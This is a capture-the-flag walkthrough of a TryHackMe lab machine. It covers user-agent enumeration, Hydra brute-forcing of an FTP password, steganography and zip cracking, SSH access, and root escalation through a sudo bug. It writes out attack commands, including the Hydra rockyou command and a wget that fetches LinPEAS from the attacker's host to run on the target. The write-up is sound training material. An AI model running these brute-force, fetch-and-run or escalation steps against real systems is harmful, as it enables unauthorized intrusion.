# Enumeration

We start running autorecon. Preliminary results tell us that three ports are running.



We follow up with a quick nmap scan for all ports, then a more detailed scan of the ports and services we found.



Navigating the the web server, we see an announcement.



After a bit of messing around, we realize that the `user-agent` is referring to the user agent [HTTP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent) which identifies the browser accessing a website. It seems that in order to discovery any new directories, we need to [alter the user-agent](https://winaero.com/change-user-agent-firefox/) value. To do this in Firefox, we navigate to `about:config`, add (if necessary) a valued named `general.useragent.override`, and add a value as a string.



Now we can mess with this to see what we can do. Recall that we are using codenames for the user-agent value. The only codename we have so far is Agent R. If we just use `R` as the user-agent value and refresh the main web page, we get something new:



So, it seems that the codenames correspond to letters of the English alphabet (25 employees + R, who seems to have some more authority). Eventuallty, we find that setting the user-agent as `C`, we find a new directory at `http://10.10.21.215/agent_C_attention.php`. 



Now we have the username `chris`, and we know that Chris' password is weak -- there's our initial vulnerability.

 

# Exploitation

Now that we've identified a username, let's try using Hydra to bruteforce the password. We have two services to mess with: FTP and SSH. It looks like the task wants us to investigate FTP first, so let's look there. Let's use `hydra -l chris -P /usr/share/wordlists/rockyou.txt -t 30 10.10.21.215 ftp` to run Hydra. (Here, `-t` specifies the number of tasks to run in parallel. The default is 16.) After a short while, we find Chris' FTP password which we can use to access the FTP server.





Within the FTP server, we find a couple of pictures and a text file, which reads:



This confirms that some potentially useful data is hiding within the images we found. We'll have to make use of some [steganography tools](https://0xrick.github.io/lists/stego/). If we use `strings` on the png file, we find something notable at the end of the output.



Okay, so it looks like the png is hiding a txt file. If we use `steghide` on the jpg (note that png is not supported), we are prompted for a passphrase which we don't have. Using `binwalk` on the png confirms our earlier suspicion. Investigating the extracted folder reveals an encrypted zip file (the `To_agentR.txt` appears blank).





We can use zip2john to extract a hash file from the zip file. We then run john against this hash file to find the password.



Using the password we found, we can finally extract the encrypted zip file in order to obtain the `To_agentR.txt` file, which includes a seemingly encoded phrase/name.



The encoded name looks like base 64. Decoding it reveals a location which the picture needs to be sent to. This turns out to be the passphrase to the jpg we found earlier. Reading the message file gives us a new username, `james`, together with his password -- all in one go!





Now we can SSH into the target machine using James' credentials. (Note: The exclamation mark in the above screenshot is part of the password!) The user flag is in James' home directory.

As part of the THM room, we are also asked: `What is the incident of the photo called?` In James' home directory we also find a photo, which we need to investigate in order to answer the question. Set up a web server on the target machine using `python3 -m http.server 9999`, navigate to `http://<target IP>:9999` on the attacking machine, and download the jpg. A quick reverse image search gives us our answer.

 

# Post-exploitation

Now that we have initial access, let's escalate our privileges.  We will use LinPEAS to try and find an avenue for privesc. Within the directory containing the `linpeas.sh` file, host a web server on the attacking machine with `python3 -m http.server`. On the target machine, download LinPEAS with `wget http://<attacker IP>:8000/linPEAS.sh` and use `chmod +x linpeas.sh` to make the file executable. Now run LinPEAS with `./linpeas.sh`. Examining the output doesn't seem to give us anything immediately useful, but LinPEAS does remind us to use `sudo -l` to check our user's sudo privileges.





Okay, so James can invoke bash with sudo. However, we run into a problem:



Let's look into this a bit further. If we Google `sudo /bin/bash exploit`, the first result gives us an exploit we can use. This also gives us the CVE number we need for the THM task.

Downloading and running the exploit on the target machine immediately gives us a root shell. Almost immediately, we find the root flag.





